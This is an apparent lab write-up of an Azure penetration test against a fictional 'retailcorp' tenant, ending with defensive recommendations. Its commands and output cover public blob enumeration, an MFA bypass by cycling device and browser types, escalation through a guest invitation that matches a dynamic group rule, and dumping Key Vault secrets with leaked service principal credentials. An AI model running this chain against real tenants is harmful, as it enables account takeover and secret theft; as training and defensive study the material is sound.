








## Walkthrough

Today we'll be walking through [Altered Security's Azure Penetration Testing Lab](https://redlabs.enterprisesecurity.io/lsp?action=openAzurePenetrationHomePage). We start with only the information that the fictional company we'll be attacking is `retailcorp`.

We can use `MicroBurst` to enumerate the services the company may be using.

```
PS C:\Users\jonat\Desktop\cloud\MicroBurst> Invoke-EnumerateAzureSubDomains -Base retailcorp -Verbose                   
VERBOSE: Found retailcorp.table.core.windows.net                                                                        
VERBOSE: Found retailcorp.onmicrosoft.com                                                                               
VERBOSE: Found retailcorp.blob.core.windows.net                                                                         
VERBOSE: Found retailcorp.mail.protection.outlook.com                                                                   
VERBOSE: Found retailcorp.queue.core.windows.net                                                                        
VERBOSE: Found retailcorp.file.core.windows.net                                                                         
VERBOSE: Found retailcorp.database.windows.net                                                                                                                                                                                                  
Subdomain                              Service                                                                          
---------                              -------                                                                          
retailcorp.database.windows.net        Databases-MSSQL                                                                  
retailcorp.mail.protection.outlook.com Email                                                                            
retailcorp.onmicrosoft.com             Microsoft Hosted Domain                                                          
retailcorp.blob.core.windows.net       Storage Accounts - Blobs                                                         
retailcorp.file.core.windows.net       Storage Accounts - Files                                                         
retailcorp.queue.core.windows.net      Storage Accounts - Queues                                                        
retailcorp.table.core.windows.net      Storage Accounts - Tables
```

We can see they're using blob storage accounts. Let's enumerate to see if we can find any publicly accessible files.

```
PS C:\Users\jonat\Desktop\cloud\MicroBurst> Invoke-EnumerateAzureBlobs -Base retailcorp
Found Storage Account - retailcorp.blob.core.windows.net

Found Container - retailcorp.blob.core.windows.net/configuration
        Public File Available: https://retailcorp.blob.core.windows.net/configuration/PAS_Deployment_Script.ps1
PS C:\Users\jonat\Desktop\cloud\MicroBurst>
```



Inside the blob storage account, we found a deployment script with hardcoded credentials. Let's see if we can use these creds to do some enumeration with `GraphRunner`.



When trying to sign into the account, I was met with a prompt for 2FA. After many agonizing hours of research, I found a few ways to [bypass conditional access policies](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-ad-conditional-access-policy/#aad-internals-making-your-device-compliant). One method involves modifying your user agent and cycling through a variety of different devices to see if one allows you to sign in without MFA.



At first, I tried running `Get-GraphTokens` and setting my user agent directly in the Chrome browser, but that never worked.

Through a miracle Google query, I learned that you can actually set the browser and device directly in the `Get-GraphTokens` command with the `-Device` and `-Browser` flags. (This took me maybe 2.5 hours to find, by the way.)



If we dump the conditional access policies, we can see what was preventing us from signing in before.


MFA was enabled on Windows, Linux, and macOS devices but not on mobile ones.

Continuing our enumeration journey, while running through the enumeration modules in `GraphRunner`, I got to `Get-DynamicGroups`. A dynamic group is a security group whose membership is automatically managed based on defined rules.



We can see that members of the `PIMAdmins` group can manage privileged identities and are assigned when the tokens `pim`, `pimadmin`, or `operations` appear in their email address and they're a guest in the tenant.



In `GraphRunner`, we can invite a guest. All we have to do is create an account we control that contains one of the tokens above.

For some reason, the `GraphRunner` invite guest module wouldn't work, so I pivoted to connecting to Microsoft Graph directly and sending the invite that way.

```
PS C:\Users\jonat\Desktop\cloud> Connect-MgGraph -AccessToken ($tokens.access_token | ConvertTo-SecureString -AsPlainText -Force)
Welcome to Microsoft Graph!

Connected via userprovidedaccesstoken access using d3590ed6-52b3-4102-aeff-aad2292ab01c
Readme: https://aka.ms/graph/sdk/powershell
SDK Docs: https://aka.ms/graph/sdk/powershell/docs
API Docs: https://aka.ms/graph/docs

NOTE: You can use the -NoWelcome parameter to suppress this message.

PS C:\Users\jonat\Desktop\cloud> New-MgInvitation -InvitedUserDisplayName "Pwned" -InvitedUserEmailAddress pim_pwned@outlook.com -InviteRedirectUrl "https://portal.azure.com" -SendInvitationMessage:$true

Id                                   InviteRedeemUrl
--                                   ---------------
4b54430f-42f4-4446-b654-cd9051062a6e https://login.microsoftonline.com/redeem?rd=https%3a%2f%2finvitations.microsoft...
```



The invitation was successfully sent to the user account that we control. Now that we're part of the `retailcorp` tenant, we can view the resources we have access to as part of the `PIMAdmins` group.


After enumerating our available resources, we see we have access to the `pimadmins` container inside the `retailcorp` storage account.

 

Inside this container is `PIM.json`, which holds credentials to an application created within the tenant called `PIM`.

We can use these credentials to move laterally inside the tenant.

Microsoft docs provide the following PowerShell command to connect to Azure with a service principal account:

```
$SecurePassword = Read-Host -Prompt 'Enter a Password' -AsSecureString
$TenantId = 'yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyy'
$ApplicationId = 'zzzzzzzz-zzzz-zzzz-zzzz-zzzzzzzz'
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $ApplicationId, $SecurePassword
Connect-AzAccount -ServicePrincipal -TenantId $TenantId -Credential $Credential
```

```
PS C:\WINDOWS\system32> $SecurePassword = Read-Host -Prompt 'Enter a Password' -AsSecureString
>> $TenantId = '711c59fe-8dee-40c0-adc1-ed08f738de43'
>> $ApplicationId = '20eb5f4e-317a-4987-a384-298bf636f082'
>> $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $ApplicationId, $SecurePassword
>> Connect-AzAccount -ServicePrincipal -TenantId $TenantId -Credential $Credential -Environment AzureCloud
>>
Enter a Password: ****************************************

Subscription name Tenant
----------------- ------
RetailCorp        711c59fe-8dee-40c0-adc1-ed08f738de43
```

We've successfully connected to the tenant with the credentials we found and the instructions provided by the Microsoft docs. We can now enumerate what resources we have access to in the context of this application.

```
PS C:\Users\jonat\Desktop\cloud> Get-AzResource


Name              : breakglass-vault
ResourceGroupName : Retail
ResourceType      : Microsoft.KeyVault/vaults
Location          : germanywestcentral
ResourceId        : /subscriptions/27ebe5b9-6e27-425a-8117-eeaab022575f/resourceGroups/Retail/providers/Microsoft.KeyVault/vaults/breakglass-vault
Tags              :


PS C:\Users\jonat\Desktop\cloud> Get-AzKeyVaultSecret -VaultName breakglass-vault


Vault Name   : breakglass-vault
Name         : PrivilegedAccess
Version      :
Id           : https://breakglass-vault.vault.azure.net:443/secrets/PrivilegedAccess
Enabled      : True
Expires      :
Not Before   :
Created      : 12/9/2021 7:18:22 PM
Updated      : 12/9/2021 7:18:22 PM
Content Type :
Tags         :


PS C:\Users\jonat\Desktop\cloud> Get-AzKeyVaultSecret -VaultName breakglass-vault -Name PrivilegedAccess


Vault Name   : breakglass-vault
Name         : PrivilegedAccess
Version      : 57bbbad0e1124bb2bc6ff945e185222a
Id           : https://breakglass-vault.vault.azure.net:443/secrets/PrivilegedAccess/57bbbad0e1124bb2bc6ff945e185222a
Enabled      : True
Expires      :
Not Before   :
Created      : 12/9/2021 7:18:22 PM
Updated      : 12/9/2021 7:18:22 PM
Content Type :
Tags         :


PS C:\Users\jonat\Desktop\cloud> Get-AzKeyVaultSecret -VaultName breakglass-vault -Name PrivilegedAccess -AsPlainText
eb9fd8e8dfbd5712a2e6071e6000aa35
```

This application has access to an Azure Key Vault called `breakglass-vault`. We can enumerate that vault and see it holds the secret called `PrivilegedAccess`, and finally we can retrieve that secret and reveal the flag.

## Defensive Considerations

- **Public Blob Storage**: Sometimes public blob access is necessary to serve files to websites or other external endpoints; however, public blobs should not hold business-sensitive scripts or configuration files. Separate storage accounts should be used for public versus internal content.
    
- **Credential Management**: When using scripts for administrative tasks, never hardcode credentials. Instead, use Azure Key Vault for credential management and leverage Managed Identities where possible to eliminate stored credentials entirely.
    
- **Comprehensive Conditional Access Policies**: Audit your conditional access policies to ensure they're all-encompassing. Enabling MFA is a great step towards defense in depth; however, it's useless if you only require MFA for certain devices and not others, as an attacker can iterate through all the user agent possibilities to find an unprotected entry point. Enforce MFA uniformly across all platforms and device types.
    
- **Guest Invitation Controls**: Restrict who can invite guests to your tenant, as this can be used as a form of persistence and privilege escalation. Implement approval workflows for guest access and regularly review guest user permissions.
    
- **Dynamic Group Membership Restrictions**: Restrict dynamic group membership to non-administrative roles, as the conditions can be easily enumerated and abused. In this case, the combination of open guest invitations and a dynamic group rule based on simple email patterns (`pim`, `pimadmin`, `operations`) allowed unauthorized access to privileged resources.
    
- **Monitoring and Alerting**: Although it's unknown whether the `PIM` application had a legitimate business need to access the Key Vault, adequate monitoring and alerting should be in place for authentication to application accounts, public blob access, unusual user agents, guest invitations to the tenant, and Key Vault secret access. Detection at any point in this attack chain could have prevented the full compromise.